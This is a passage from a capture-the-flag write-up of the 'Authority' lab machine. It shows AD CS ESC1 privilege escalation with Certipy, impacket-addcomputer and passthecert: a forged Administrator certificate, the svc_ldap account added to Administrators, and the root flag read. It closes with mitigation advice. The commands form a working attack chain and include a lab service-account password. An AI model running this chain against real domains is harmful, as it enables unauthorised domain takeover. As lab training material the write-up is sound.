d-r---        3/24/2023  11:27 PM                Users
d-----        7/12/2023   1:19 PM                Windows
-a----        8/10/2022   8:44 PM       84784749 pwm-onejar-2.0.3.jar
```

Enumerating the host a bit more, I found an interesting `C:\Certs` directory. This suggests that the environment might be using Active Directory Certificate Services (AD CS).

### ESC1 Attack

I will use `Certipy` to check for any vulnerable AD certificate templates.

```plaintext {1,2}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ certipy-ad find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 21 issuance policies
[*] Found 0 OIDs linked to templates
[!] DNS resolution failed: The DNS query name does not exist: authority.authority.htb.
[!] Use -debug to print a stacktrace
[*] Retrieving CA configuration for 'AUTHORITY-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'AUTHORITY-CA'
[*] Checking web enrollment for CA 'AUTHORITY-CA' @ 'authority.authority.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
    Certificate Serial Number           : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Certificate Validity Start          : 2023-04-24 01:46:26+00:00
    Certificate Validity End            : 2123-04-24 01:56:25+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : AUTHORITY.HTB\Administrators
      Access Rights
        ManageCa                        : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        ManageCertificates              : AUTHORITY.HTB\Administrators
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Enroll                          : AUTHORITY.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollmentCheckUserDsCertificate
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-03-24T23:48:09+00:00
    Template Last Modified              : 2023-03-24T23:48:11+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Full Control Principals         : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
        Write Property Enroll           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
    [+] User Enrollable Principals      : AUTHORITY.HTB\Domain Computers
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

:::info[Aha!]
The `CorpVPN` template is vulnerable to ESC1, allowing any domain computer to request a certificate with an arbitrary Subject Alternative Name (SAN). This means that we can request a certificate on behalf of another user, such as a Domain Admin.
:::

To exploit this, I first need a computer account. I use my existing privileges to create one.

```plaintext {1,2}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name 'm4ias7ru!' -computer-pass 'M4ias7ru!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account m4ias7ru!$ with password M4ias7ru!.
```

Now, I use that computer account to request a certificate for the Administrator user via the vulnerable `CorpVPN` template.

```plaintext {1,2}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ certipy-ad req -username 'm4ias7ru!$' -password 'M4ias7ru!' -ca AUTHORITY-CA -dc-ip 10.129.229.56 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 3
[*] Successfully requested certificate
[*] Got certificate with multiple identities
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator_authority.pfx'
[*] Wrote certificate and private key to 'administrator_authority.pfx'
```

I successfully receive the `.pfx` file. I'll split the certificate and key to prepare them for the `passthecert.py` tool.

```plaintext {1,2,8,9}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ certipy-ad cert -pfx administrator_authority.pfx -nokey -out user.crt                                                                                                  
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Data written to 'user.crt'
[*] Writing certificate to 'user.crt'
                                                                                                                                                                                    
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ certipy-ad cert -pfx administrator_authority.pfx -nocert -out user.key 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Data written to 'user.key'
[*] Writing private key to 'user.key'
```

I'll use `passthecert.py` to authenticate to the LDAP server as the Administrator and then add my current svc_ldap user to the Administrators group.

```plaintext {1,2,7}
┌──(m4ias7ru㉿kali)-[~/Desktop/Authority]
└─$ python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip 10.129.229.56
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands

# add_user_to_group svc_ldap Administrators
Adding user: svc_ldap to group Administrators result: OK
```

Checking my group memberships, I can see that I am indeed an Administrator.

```plaintext {1,2}
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> net user svc_ldap
User name                    svc_ldap
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/10/2022 8:29:31 PM
Password expires             Never
Password changeable          8/11/2022 8:29:31 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   12/21/2025 6:39:22 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Now I can access the Administrator's desktop and read the root flag.

```plaintext {1}
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> cd ../../Administrator/Desktop ; type root.txt
16fafbcb************************
```

---

## Attack Path Visual Summary



---

## Mitigation Steps

- Secure SMB Shares: Ensure that development shares do not allow guest access. Configuration scripts (like Ansible) containing secrets should never be stored in world-readable locations.

- Credential Hygiene: Rotate svc_pwm and svc_ldap passwords. Ensure Ansible Vault keys are complex and stored securely in a dedicated secrets manager.

- PWM Hardening: Disable "Configuration Mode" on production PWM instances and restrict access to the /pwm/config endpoint to administrative IPs only.

- AD CS Security: Audit certificate templates. Templates should not allow the Enrollee Supplies Subject flag (ESC1) unless absolutely necessary, and enrollment permissions should be strictly limited.

- Restrict MAQ: Set the ms-DS-MachineAccountQuota to 0. This prevents standard users from creating machine accounts, which is a relatively common step for many AD escalation techniques.